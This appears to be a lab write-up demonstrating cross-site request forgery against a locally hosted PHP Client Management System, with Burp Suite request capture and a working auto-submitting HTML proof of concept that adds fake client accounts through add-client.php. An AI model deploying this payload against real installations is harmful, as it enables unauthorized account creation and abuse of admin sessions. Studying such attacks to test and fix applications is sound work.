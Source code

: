 # CSRF-Leads-to-Create-Fake-Users
CSRF can create fake users by tricking an authenticated user into submitting a malicious request. The web app trusts the session, allowing unauthorized account creation, leading to privilege escalation or spam. Mitigation includes CSRF tokens, Same Site cookies, and authentication checks like CAPTCHAs.

# Set up the Environment
Locally host a website named Client Management System using MySQL and PHP.
Ensure the website includes functionality for adding the clients and their services.

# Login as Admin
By using the given username and password into the Client Management System
![Login as admin](https://github.com/user-attachments/assets/a52b86de-a945-424a-89fc-ef538af11ac0)

# Add the new Client
Select the add client option and enter the required client details.
![adding new  client](https://github.com/user-attachments/assets/f4589658-3bc8-485b-beec-f58280c63c91)
![enter the client details](https://github.com/user-attachments/assets/a0a89e2d-743a-4bf0-887d-24ed8c9629d5)

# Capture the Client adding Request
1.Navigate to the Save button on the website
2.Before clicking the Save button, Set up Burp Suite to intercept the request
3.Click the Save button and capture the HTTP request, before it hit the server
4.Send the captured request to the Repeater tab in Burp Suite for the analysis
![capturing the request in burp](https://github.com/user-attachments/assets/2c3978f6-8518-4ca1-89c3-cc7a22a7cebe)
![send to repeater'](https://github.com/user-attachments/assets/be30ff6c-4dc5-4f18-af61-11bd81c526d1)

# HTML Code for User1
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost/clientms/admin/add-client.php" method="POST">
      <input type="hidden" name="accounttype" value="Active&#32;Account" />
      <input type="hidden" name="cname" value="moulimurugan" />
      <input type="hidden" name="comname" value="kppr" />
      <input type="hidden" name="address" value="vijayamangalam" />
      <input type="hidden" name="city" value="erode" />
      <input type="hidden" name="state" value="tamil" />
      <input type="hidden" name="zcode" value="638026" />
      <input type="hidden" name="wphnumber" value="968560710" />
      <input type="hidden" name="cellphnumber" value="6931052465" />
      <input type="hidden" name="ophnumber" value="9638560410" />
      <input type="hidden" name="email" value="moulimurugan&#64;gmail&#46;com" />
      <input type="hidden" name="password" value="moulimurugan" />
      <input type="hidden" name="websiteadd" value="clientmsdb" />
      <input type="hidden" name="notes" value="Nil" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

# Creating the fake users
Edit the existing details of client1 to client2 (fake_user1), client3 (fake_user2), in the above HTML code
![in repeater we add new user 1 with new usernam](https://github.com/user-attachments/assets/4b45fb41-3c40-4a6b-9dcf-525fc02eceaa)
![in repeater we add new user 2 with new usernam](https://github.com/user-attachments/assets/feb6cc10-f6b7-4276-ba5f-41e026f3fba2)
![copy and paste the link in browser](https://github.com/user-attachments/assets/6a3c2e60-b89e-4d2a-a0a6-b159dcca2c1a)

# Test the CRRF PoC
1.Open the link which generated in above PoCs
2.Then the webpage open with the submit button
![copy and paste the link in browser](https://github.com/user-attachments/assets/68b10332-3cc8-4d9c-8ccf-46af830ad9ba)
![hit the submit request button](https://github.com/user-attachments/assets/59d29d18-7911-4f2b-b115-38946be339f8)

# Created Fake Clients
When we hit the submit button the new fake client is added to the dashboard. We can see in the following PoCs.
![clients are added](https://github.com/user-attachments/assets/ce96ec9b-4f7d-470c-89ed-a63bb79a341f)
![in dashboard we can see in single request multiple user are created](https://github.com/user-attachments/assets/878be82c-87de-4201-aa4f-c08ed785fc20)
